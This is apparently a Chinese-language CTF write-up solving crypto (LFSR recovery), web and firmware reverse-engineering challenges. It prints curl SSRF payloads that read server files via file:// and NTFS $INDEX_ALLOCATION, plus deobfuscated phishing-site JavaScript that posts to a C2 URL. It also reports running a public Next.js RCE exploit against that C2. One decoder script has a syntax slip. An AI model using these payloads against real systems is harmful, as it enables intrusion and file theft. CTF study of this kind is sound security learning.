gift_bytes = b'\x0c\xf8\x1c(\xa7\xb0\n^p\xf5\xb4%dS\x8a\x0bv\x06\x13\x90\xb1\x86\xbb\x8aI\x87\xd5\x1f\xa2(\x87^\xc4\xdf\xd4tZ\xcae\x87\xf4~\xf3\x80\xf8\x93\x0e\xf05\x90f\xe6\xe9\x15\xd4\xd9\xda,j\xb9D$g\xd5\xffF8n7\x90:7\x96\xf9\x83\x17\xb3\xf9\xf1\xd0J\xcf\xa9mB\xb2|\x14Y\xb0\xd2ij\xf1\xde1\xb1\xb3=%\xa2;\xd1N\xc1\x89xY\xc1\xe4"[\x16\x9f\xa6\xad\xda\xfd/\xf3,\xd9i\xde\xac\x1e\x13\xceL\x91X+:\xf3\xf5\r\xea\x9f,\x9b\xf2\xfd8\xba\x94~-\x0ci\xb2\x8e5\xa4\xd0\\\xfd`(\xe1\x99-\xd0\x16\x1b`\xa1\xb8\xb25r\xe74@\xa9\x95\xa6]\x84)\xcc\xbe;\xeaI\x83\xee\xdb\xa3\xb9\x99\xc9*\x9d\xd8\x9cI\xf4-\x10`\x9b\x97>\xb8GzM\x0bc\xf6\x0b\x8c2Edk\xf8\xe7\'A\x86`\xce\x7f`\x0b\xff]\xbd\xca|\xab\xec\xd8\xa2\xeb\x9e\xf5Hp\xfa&bu \x16w\x91I\xef\x86\x8buE\\\xec\xfd\x97\x9c\ns\x1f\xac\xe1U\x93\xbc\xcf|\t\x98\xce\x8d\xb7\xbb\xf4\xb4\xca\xbb\xc1\x86\xa0H\x84C*+\xe5\\\xf1+\xfab\x86hB\xe8\x1duY\x14\xf4c2\xb1\x06/\x1e\x8eB\xdd\x99o\xf9G\xf0q\xab\x8aL\x8f\xd9z](R\xce-\xf0\xdc\x0c\x8c\x1c\x1f\\=\x0e\x8fg\x18\xd9c\xee\x92\xf8\xc1\xee\x0bo\x02\x12\xa0\xc7a\xa0\xb0-\xa6P5\xd1f\x95\x89\x83`\x1en\xde\x8c\xc1Q\xaf\'.\xf2`\x87[\xdc\xab|\x9e\xb4\xabn\xe0MJ\x8f\xcf\xdf\xc3u\xe66\x0e\xe1\xc6N24\xd8\xed\x17\x07\x8e\xa1\xeeK\xeb\xd9\x1bnK\xc2\x8e\x87\'XGy\xbc\xac\x19\xc4\xd9h:\xa5\xb5-\x9b\xa5\xd5\xb1z\xae\xd1\x0f\xd5\xa8\xb6\x174\x1d\x8b\x04\xc5\x0b\xc5\x9f\x1c\xd6*\xfc\xdaSq\x99:\x17!\xb9\xf6Q\xfb\x95\x1f\x9eEF\x87\xc6\xae\xc2\r\xd7\x1f\xecXK\x9d\xdd\x03\x82^?3\xfa\xce\xe1\xd4\xe2N\x9ab0\x06lR\xa9z\xe8\x0bA\xcd\n\x00\xeel\xf7\xf3\x06Q\x12\x88l\x84\xfc^\xbc\x908\xd3\x96.s\x02\xa0\xe3\x9aET\x83t\xb6\n\xea\xbe\xf4a\xf8\xd2<8AK\x0fT\xc0\x83#\xee\xff\x1c>4\xfc\x0e`"X\x88\xd5\x8e\x993\\rt\\|\'p-!\xf1\x13=\x98^z\x1f\xc9\xc2\x13:\xe4\x8a\xbe\x11;e\xe1uZ\x9eZ1\xc6tle,\x10\x1e\x80\xc9W\x81\x1b\xfd\x92\x07+\x04$\xca\x95\xd7\x1c\xb7\xc4\xba\xf8z\xe5\xfc\xdbLhB\x94>\xa5Z\x19*\xc9Y\xffY\xba\xd2:\xdb\xe3\xca.Kj\xfa=\x7fa\x13\x06\x1c\x9d\x8f\xa1\x9e\x9cgo\x0e\x0eN\xec\x1f\x0c'

outputs_int = []
for i in range(0, len(gift_bytes), 16):
    outputs_int.append(int.from_bytes(gift_bytes[i:i+16], 'big'))

R = GF(2)['x']
x = R.gen()


def int_to_poly(val): return R(Integer(val).digits(2))


outputs = [int_to_poly(v) for v in outputs_int]

n = 16
found_taps_rev = []
current_R = 0

z = {}
for k in range(n, len(outputs)):
    z[k] = outputs[k-n]

for m in range(n):
    tap_idx = n - 1 - m
    print(f"Solving for tap {tap_idx} (reverse step {m})...")

    dim = n - 1 - m

    if dim == 0:
        k1 = 16
        k2 = 17
        A1 = z[k1]
        B1 = outputs[k1]
        A2 = z[k2]
        B2 = outputs[k2]

        best_tap = -1
        best_deg = -1

        for t in range(256):
            R_val = current_R + t
            XS = x**R_val
            val1 = A1 + XS * B1
            val2 = A2 + XS * B2
            g = val1.gcd(val2)
            deg = g.degree()
            if deg > best_deg:
                best_deg = deg
                best_tap = t

        print(f"Found tap {tap_idx}: {best_tap} (deg {best_deg})")
        found_taps_rev.append(best_tap)
        break

    def get_vals(start_k):
        mat_fixed = []
        vec_A = []
        vec_B = []

        # Need dim+1 rows
        for i in range(dim + 1):
            k = start_k + i
            row = []
            for u in range(dim):
                row.append(outputs[k - u])
            mat_fixed.append(row)
            vec_A.append(z[k])
            vec_B.append(outputs[k - (n - 1 - m)])

        mat1 = []
        for r, a in zip(mat_fixed, vec_A):
            mat1.append(r + [a])
        M_A = Matrix(R, mat1)

        mat2 = []
        for r, b in zip(mat_fixed, vec_B):
            mat2.append(r + [b])
        M_B = Matrix(R, mat2)

        return M_A.determinant(), M_B.determinant()

    print("Computing determinants...")
    D1_A, D1_B = get_vals(16)
    D2_A, D2_B = get_vals(17)

    best_tap = -1
    best_deg = -1

    print("Scanning taps...")
    for t in range(256):
        R_val = current_R + t
        XS = x**R_val

        val1 = D1_A + XS * D1_B
        val2 = D2_A + XS * D2_B

        g = val1.gcd(val2)
        deg = g.degree()

        if deg > best_deg:
            best_deg = deg
            best_tap = t

    print(f"Found tap {tap_idx}: {best_tap} (deg {best_deg})")
    found_taps_rev.append(best_tap)
    current_R += best_tap

    XS = x**current_R
    for k in z:
        z[k] = z[k] + XS * outputs[k - (n - 1 - m)]

found_taps = found_taps_rev[::-1]
print("Found taps:", found_taps)
```

</Details>



```
taps = [12, 148, 138, 34, 66, 53, 196, 204, 207, 203, 19, 218, 13, 171, 101, 88]
```

有 taps 後算

$$
R_j=\sum_{p=j+1}^{15}t_p,\qquad R_{-1}=\sum_{p=0}^{15}t_p
$$

對每個 $k \ge 16$：

$$
V_k=x_kX^{R_{-1}}+\sum_{j=0}^{15}x_{k-1-j}X^{R_j}\equiv 0\pmod P
$$

所以 $P\mid V_k$，取多個 $V_k$ 的 gcd 就得到 $P(X)$（degree 128）。

最後推出第 43 次輸出，對 $k=42$：

$$
x_{42}X^{R_{-1}}+\sum_{j=0}^{15}x_{41-j}X^{R_j}\equiv 0\pmod P
$$

$$
x_{42}\equiv\left(\sum_{j=0}^{15}x_{41-j}X^{R_j}\right)\cdot X^{-R_{-1}} \pmod P
$$

在 quotient ring $\mathbb{F}_2[X]/(P)$ 算出 $x_{42}$，轉成 16 bytes 當 AES key，解開 `ct` 終於拿到 flag。

<Details summary="solve.py">

```py
import ast
from sage.all import GF, Integer, PolynomialRing
from Crypto.Cipher import AES

R = PolynomialRing(GF(2), "x")
x = R.gen()


def load(path):
    a = [ln.strip() for ln in open(path) if ln.strip()]
    return ast.literal_eval(a[0].split(" = ", 1)[1]), ast.literal_eval(a[1].split(" = ", 1)[1])


def i2p(v): return R(Integer(v).digits(2))


def p2i(p):
    r = 0
    for i, c in enumerate(p.list()):
        if int(c):
            r |= 1 << i
    return r


def Rs(taps):
    n = len(taps)
    Rv = [0] * n
    for j in range(n - 2, -1, -1):
        Rv[j] = Rv[j + 1] + taps[j + 1]
    return Rv, Rv[0] + taps[0]


def gcdP(out, taps):
    n = len(taps)
    Rv, Rm1 = Rs(taps)
    P = R(0)
    for k in range(n, len(out)):
        v = out[k] * (x ** Rm1)
        for j in range(n):
            v += out[k - 1 - j] * (x ** Rv[j])
        P = v if P == 0 else P.gcd(v)
    return P, Rv, Rm1


def next_key(out, P, Rv, Rm1):
    if int(P(0)) == 0:
        raise ValueError("P(0)=0")
    Q = R.quotient(P)
    xb = Q(x)
    S = R(0)
    for j in range(16):
        S += out[41 - j] * (x ** Rv[j])
    k = (Q(S) * (xb ** (-Rm1))).lift()
    return p2i(k).to_bytes(16, "big")


def main():
    taps = [12, 148, 138, 34, 66, 53, 196, 204, 207, 203, 19, 218, 13, 171, 101, 88]
    gift, ct = load("output.txt")
    out = [i2p(int.from_bytes(gift[i:i + 16], "big")) for i in range(0, len(gift), 16)]
    print(f"outputs = {len(out)} blocks")
    P, Rv, Rm1 = gcdP(out, taps)
    print(f"recovered gcd(P*) degree = {P.degree()}")
    key = next_key(out, P, Rv, Rm1)
    print(f"AES key = {key.hex()}")
    nonce, c = ct[:8], ct[8:]
    flag = AES.new(key, AES.MODE_CTR, nonce=nonce).decrypt(c)
    print(f"{flag=}")


if __name__ == "__main__":
    main()
```

</Details>

#### Flag



`EOF{lfsr_is_a_linear_recurrence_so_is_lfsr_of_lfsr}`

這題真的好難

## Web

### 以大方空頭來啦！

#### 題目描述

這題給的是一個假空投的惡意網站，目標是找到後面的 C2 server 然後 RCE 他。

#### 分析與解法

首先看看 hint 是原始碼流出：



太怪了，為什麼要給 `package.json` 呢，網站是用 Next.js 寫的，想想就覺得不對勁，該不會是熱騰騰的 [CVE-2025-55182](https://www.cve.org/CVERecord?id=CVE-2025-55182) 吧？果然 next 版本是 15.5.1-canary.39 有 RCE 漏洞。

先來分析一下網站，開 developer tools 會被導到 error page，我直接用 curl 抓看 `head` 裡面有什麼東西，發現 he 包成一個 VM 了，噁噁噁，變成 reverse 了 QQ。最後找到：

```html
<script src="/_next/static/chunks/app/page-a5d5f48bdef4decb.js" async=""></script>
```



裡面有些很糟糕的東西。總之我在裡面發現了這些被混淆的程式碼，其中 B 就是 C2 server url：

```js
function p(){let t=["YW5jZ","ZAS0A","29udH","XAAAA","3163775gkdyXZ","black","05e8p","5ZWf5","VFwmv","r:sha","nset-","hadow","後再嘗試。","確認後再試","ute r","ext-w","ite","t jus","BYGl2","en ga","GrTlm","] fon","low-h","mt-0.","an-10","確認連接…",...];return(p=function(){return t})()}
function I(t,e){return t-=336,p()[t]}
!function(t,e){let i=I,s=t();for(;;)try{if(parseInt(i(891))/1*(parseInt(i(699))/2)+parseInt(i(945))/3+-parseInt(i(1289))/4*(parseInt(i(1147))/5)+-parseInt(i(1376))/6+parseInt(i(1387))/7+parseInt(i(849))/8*(parseInt(i(598))/9)+-parseInt(i(844))/10===741233)break;s.push(s.shift())}catch(t){s.push(s.shift())}}(p,0);
let T = I;
let B = (null != (N = T(1267) + T(1399) + T(1138) + T(469) + T(611)) ? N : T(1267) + T(1399) + "c.cha" + T(469) + T(611)).replace(/\/$/, "");
```

直接執行他就可以拿到 C2 server：

```
https://rpc.chainpipes.uk
```

```js
let x = await t[T(445)](fetch, ""[T(591) + "t"](B, T(1026) + T(1298)), {
  method: t.tdteu,
  headers: R,
  body: JSON[T(1221) + T(642)](m),
});
```

這邊也可以找到發送請求的邏輯，發現他的值是 `/api/claim`，不過這不是很重要，重點是 `https://rpc.chainpipes.uk` 會給 500 且被防火牆擋掉，但 `https://rpc.chainpipes.uk/api` 直接給我們一個 next.js error page，代表我們可以直接 RCE 他！



然後我就偷了 [zack0x01/vuln-app-CVE-2025-55182](https://github.com/zack0x01/vuln-app-CVE-2025-55182) 的腳本直接打就成功了。

#### Flag



`EOF{Fr33_EIP7702_Sc43_with_EV3_Supp0r7~}`

### CookieMonster Viewer

#### 題目描述

給你一個 web app，可以輸入名字還有圖片五選一，然後會顯示一個預覽畫面。圖片看起來是 AI 生的，不過很可愛，~~實在是個意義不明的網站~~


#### 分析與解法

這題是 Qwertypig 把大部分做完了剩最後一步是我做的，總之經過一些很可怕的分析後他發現了 `/api/preview` 這個 API 可以被 SSRF，並且可以用 `file://` 任意讀檔案（在已知路徑的狀況下）！

```sh
curl -X POST "http://chals2.eof.ais3.org:20579/api/preview" \
  -H "Content-Type: application/json" \
  -d '{"url": "file:///C:/supersecureyouwillneverguessed/Dockerfile", "username": "Guest"}'
```

因此我們拿到了 Dockerfile：

```Dockerfile
FROM python:3.12-windowsservercore-ltsc2022

WORKDIR /supersecureyouwillneverguessed

COPY requirements.txt .
RUN python -m pip install --no-cache-dir -r requirements.txt

COPY . .

# First move the flag (while we have write access)
SHELL ["powershell", "-Command"]
RUN $rand = -join ((65..90) + (97..122) | Get-Random -Count 16 | ForEach-Object {[char]$_}); Move-Item C:\supersecureyouwillneverguessed\flag.txt C:\flag-$rand.txt; attrib +R (Get-Item C:\flag-*.txt).FullName

# Then lock down permissions
SHELL ["cmd", "/S", "/C"]
RUN net user /add appuser && \
    attrib +R C:\supersecureyouwillneverguessed\*.* /S && \
    icacls C:\supersecureyouwillneverguessed /grant appuser:(OI)(CI)(RX) /T && \
    icacls C:\supersecureyouwillneverguessed /deny appuser:(WD,AD,DC)

USER appuser
CMD ["python", "app.py"]
```

並且發現 flag 被移動到 `C:\flag-<random>.txt`，而且被設成唯讀，然後整個專案目錄被鎖掉寫入權限，只給了一個非 admin 的 `appuser` 讀取權限。問題在我們不知道 flag 的完整檔名，所以沒辦法直接用 `file://` 讀。我試了很多 Windows 的 path trick 都不行，例如 `FLAG~1.TXT` 這樣的短檔名，或是去看各種 system log 想找出檔名。又或者因為我查到 powershell 的 rand 預設 seed 是開機時間，而該 instance 是剛開機沒多久，所以我試著爆搜 seed 可能的時間範圍，但都沒成功。

最後終於想到可以用 NTFS 的 `$INDEX_ALLOCATION` 來讀整個目錄的 index，這樣就可以列出所有檔案名稱了！

```sh
curl -X POST "http://chals2.eof.ais3.org:20189/api/preview" \
  -H "Content-Type: application/json" \
  -d '{"url": "file:///C:/::$INDEX_ALLOCATION", "username": "Guest"}'
```



聽說是 unintended solution，~~再次證明了 Windows 是個奇怪的系統~~。

#### Flag



`EOF{w0rst_f1t_4rg_1nj3ct10n_w/_format_string!}`

神奇的繞掉了 format string 的部份就解開了，官解其實藏在題敘裡

> Cookie Monster has a collection of the BEST and WORST beautiful landscape photos that FIT his quirky tastes, but he keeps them very secure.
>
> Can you find a way to access his secret flag?

的大寫字：Best Fit, Worst Fit，但好麻煩不想做 XD。

## Reverse

### bored

#### 題目描述

提供了一份跑在 LM3S6965 (ARM Cortex-M3) 的韌體 `firmware.bin`，另外還有一份 UART waveform（VCD）`signal.vcd`，需要從中還原實際通訊內容。

#### 分析與解法

用 ghidra 打開 `firmware.bin` 很容易可以找到 `LAB_00000350` 就是 startup code，trace 一下可以找到 main function `FUN_000002a0`，簡單逆一下大概是這樣：



所以主流程就是輸入一個字串當 RC4 key，輸出一個 const 跟 RC4 keystream XOR 後的結果。const 如下：

```hex
a2 c3 9e cc 60 35 ee bf f5 7d 78 5a cd d5 c8 52
80 ae c6 19 56 f2 a7 cb d5 0b e1 61 b9 14
```

那接下來就簡單了，我手上有 UART 波形檔，寫一個 decoder 把波形還原成 bytes：

<Details summary="decode.py">

```py
from bisect import bisect_right

VCD = "signal.vcd"
SYMBOL = "d"
BIT_NS = 104166
FRAME_NS = 10 * BIT_NS


def load_transitions(vcd_path: str, symbol: str):
    t = 0
    events = []
    with open(vcd_path, "r", errors="ignore") as f:
        for line in f:
            line = line.strip()
            if not line:
                continue
            if line.startswith("#"):
                t = int(line[1:])
            elif line[0] in "01" and line.endswith(symbol):
                events.append((t, int(line[0])))

    events.sort()
    trans = []
    for tt, vv in events:
        if not trans or trans[-1][1] != vv:
            trans.append((tt, vv))
    return trans


def make_sampler(trans):
    times = [t for t, _ in trans]
    vals = [v for _, v in trans]

    def value_at(time_ns: int, default_idle: int = 1) -> int:
        idx = bisect_right(times, time_ns) - 1
        return vals[idx] if idx >= 0 else default_idle

    return value_at


def decode_uart_8n1(trans, bit_ns: int) -> bytes:
    value_at = make_sampler(trans)
    frame_ns = 10 * bit_ns

    def decode_frame(t0: int):
        if value_at(t0) != 0:
            return None
        if value_at(t0 + bit_ns // 2) != 0:
            return None

        byte = 0
        for k in range(8):
            sample_t = t0 + int((1.5 + k) * bit_ns)
            byte |= (value_at(sample_t) << k)

        if value_at(t0 + int(9.5 * bit_ns)) != 1:
            return None
        return byte

    out = []
    i = 1
    t_scan = trans[0][0]
    end_t = trans[-1][0]

    while t_scan + frame_ns < end_t and i < len(trans)):
        while i < len(trans) and not (trans[i-1][1] == 1 and trans[i][1] == 0):
            i += 1
        if i >= len(trans):
            break

        t0 = trans[i][0]
        b = decode_frame(t0)

        if b is not None:
            out.append(b)
            t_scan = t0 + frame_ns
        else:
            t_scan = t0 + int(0.2 * bit_ns)

        while i < len(trans) and trans[i][0] < t_scan:
            i += 1

    return bytes(out)


def printable(bs: bytes) -> str:
    return "".join(chr(x) if 32 <= x <= 126 else "." for x in bs)


if __name__ == "__main__":
    trans = load_transitions(VCD, SYMBOL)
    uart = decode_uart_8n1(trans, BIT_NS)

    print("len:", len(uart))
    print("hex:", uart.hex(" "))
    print("latin1:", uart.decode("latin1"))
    print("printable:", printable(uart))
```

</Details>

```
b4r3MEt41
```

看起來很像 input key，最後就是 RC4 解密：

<Details summary="solve.py">

```py
def rc4_keystream(key_bytes, n):
    S = list(range(256))
    j = 0
    for i in range(256):
        j = (j + S[i] + key_bytes[i % len(key_bytes)]) & 0xFF
        S[i], S[j] = S[j], S[i]
    i = j = 0
    out = []
    for _ in range(n):
        i = (i + 1) & 0xFF
        j = (j + S[i]) & 0xFF
        S[i], S[j] = S[j], S[i]
        out.append(S[(S[i] + S[j]) & 0xFF])
    return out


cipher = bytes.fromhex("a2 c3 9e cc 60 35 ee bf f5 7d 78 5a cd d5 c8 52 80 ae c6 19 56 f2 a7 cb d5 0b e1 61 b9 14")

key = b"b4r3MEt41"
ks = rc4_keystream(list(key), len(cipher))
flag_bytes = bytes([c ^ k for c, k in zip(cipher, ks)])

print(flag_bytes.decode())
```

</Details>

#### Flag



`EOF{ExP3d14i0N_33_15_4he_G0AT}`

### Impure

這題比賽期間沒有做出來 QQ，賽後補完了。

